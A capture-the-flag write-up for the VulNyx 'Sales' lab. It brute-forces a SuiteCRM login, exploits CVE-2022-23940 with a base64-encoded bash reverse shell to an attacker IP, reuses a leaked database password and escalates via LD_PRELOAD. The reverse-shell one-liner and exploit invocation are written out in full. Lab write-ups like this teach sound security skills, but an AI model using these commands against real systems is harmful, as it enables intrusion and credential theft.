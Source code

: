 ```yaml
---
title: VulNyx - Sales Writeup
date: 2025-06-05 17:03:00 +0530
categories: [Vulnyx, Writeups]
tags: [suitecrm, vhost, cve-2022-23940, ld_preload, credential_reuse, privesc, base64_shell, gobuster, wfuzz, intruder]
---
```


`Sales` is an easy difficulty linux box. This machine consists of brute-forcing a `SuiteCRM` login instance, using an authenticated RCE exploit to gain initial access, credential reuse, and finally privilege escalation by abusing the `sudo` privileges using `LD_PRELOAD`.

## Modifying /etc/hosts

```bash
❯ sudo nano /etc/hosts

192.168.25.14   sales.nyx
```

## Enumeration

### Nmap results

```bash
❯ nmap -p- sales.nyx   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:18 EDT
Nmap scan report for sales.nyx (192.168.25.14)
Host is up (0.00057s latency).
Not shown: 44696 filtered tcp ports (net-unreach), 20837 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 47.30 seconds
```

```bash
❯ nmap -sC -sV -p 22,80 sales.nyx
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:18 EDT
Nmap scan report for sales.nyx (192.168.25.14)
Host is up (0.0024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:2c:11:05:8e:0a:ea:0b:df:52:60:ed:bf:b4:c2:92 (ECDSA)
|_  256 9d:5a:c5:8d:db:27:66:ca:35:30:05:1f:ad:25:40:3f (ED25519)

80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: AksisDesign
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.70 seconds

```
As we can see we have OpenSSH running on port `22` and an Apache httpd server running on port `80`


### Directory Enumeration

### HTTP (80)
We couldn't find anything on the main webpage, i.e., `sales.nyx`. However we identified an email address which could possibly prove useful later on.

![image.png](/assets/img/sales_vulnyx/image%202.png)



Directory enumeration using GoBuster did not give us any fruitful results
```bash
❯ gobuster dir -u http://sales.nyx -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sales.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://sales.nyx/images               (Status: 301) [Size: 307] [--> http://sales.nyx/images/]
http://sales.nyx/css                  (Status: 301) [Size: 304] [--> http://sales.nyx/css/]
http://sales.nyx/js                   (Status: 301) [Size: 303] [--> http://sales.nyx/js/]
http://sales.nyx/fonts                (Status: 301) [Size: 306] [--> http://sales.nyx/fonts/]
http://sales.nyx/server-status        (Status: 403) [Size: 274]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

### Virtual Hosts (VHOSTS) Enumeration

```bash
❯ wfuzz -u "http://sales.nyx" -H "HOST: FUZZ.sales.nyx" -w subdomains-top1million-5000.txt --hl=9   
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sales.nyx/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000001:   200        387 L    1408 W     19489 Ch    "www - www"                                                                                                                                                               
000000072:   301        0 L      0 W        0 Ch        "crm - crm"                                                                                                                                                               

Total time: 2.589449
Processed Requests: 4989
Filtered Requests: 4987
Requests/sec.: 1926.664
```
While enumerating VHOSTS we discovered `crm.sales.nyx`  and added it to `/etc/hosts`

## crm.sales.nyx
We can see a login page for a SuiteCRM instance, which is an open-source Customer Relationship Management application.

![image.png](/assets/img/sales_vulnyx/image.png)

When testing open-source applications a simple trick that we can use to enumerate versions is to look for the presence of files that are frequently changed, like `README.md` and `CHANGELOG.md`. In some cases these file specifically mention the version of the application that is being run, and in other cases we can identify service versions by comparing file hashes of these files between releases.

![image.png](/assets/img/sales_vulnyx/image%201.png)

Version: SuiteCRM 7.12.4

`SuiteCRM 7.12.4` is vulnerable to `CVE-2022-23940` which allows Authenticated Remote Code Execution (RCE). [CVE-2022-23940 Exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-23940)


## Brute-force Login

We created a word list using cewl and performed a brute-force attack using `Burp Intruder` while specifying the username as `yuna.yoon`, which was extracted from the email identified previously.

```bash
❯ cewl -d 3 http://sales.nyx -w wordlist.txt
```

![image.png](/assets/img/sales_vulnyx/image%203.png)


![image.png](/assets/img/sales_vulnyx/image%204.png)

By filtering by length a valid credential was identified, i.e., `AksisDesign` and used to successfully log in.

![image.png](/assets/img/sales_vulnyx/image%205.png)

![image.png](/assets/img/sales_vulnyx/image%206.png)


Since we now have valid credentials we can attempt to use the exploit for `CVE-2022-23940`. We started off with encoding our reverse shell in Base64 to avoid any issues due to bad characters.

## Base64 reverse shell

```bash
❯ echo -n 'bash -i >& /dev/tcp/192.168.25.4/1337 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1LjQvMTMzNyAwPiYx
```

## Shell

```bash
❯ python3 exploit.py -h http://crm.sales.nyx -u yuna.yoon -p AksisDesign -P "echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1LjQvMTMzNyAwPiYx | base64 -d | bash"
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

```bash
❯ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.14] 51750
bash: cannot set terminal process group (636): Inappropriate ioctl for device
bash: no job control in this shell
www-data@template:/var/www/suitecrm$ 
```

## Credential Exposure in config.php

```bash
www-data@template:/var/www/suitecrm$ cat config.php
```

![image.png](/assets/img/sales_vulnyx/image%207.png)

```bash
'db_user_name' => 'suitecrm',
'db_password' => 'Ev3*CRm_DBaS3',
```

## Credential reuse
We identified a user `eve` on the target VM, and assuming that credenitals were being reused we were successfully able to switch to the user `eve`.

![image.png](/assets/img/sales_vulnyx/image%208.png)

### User flag

![image.png](/assets/img/sales_vulnyx/image_9.png)

## Privilege Escalation

### linpeas.sh
 
![image.png](/assets/img/sales_vulnyx/image%2010.png)

Using `linpeas.sh` we identified that `/bin/ping` can be run as root without specifying a password and this can be exploited using `LD_PRELOAD`

![image.png](/assets/img/sales_vulnyx/image%2011.png)

### Root flag
![image.png](/assets/img/sales_vulnyx/image%2012.png)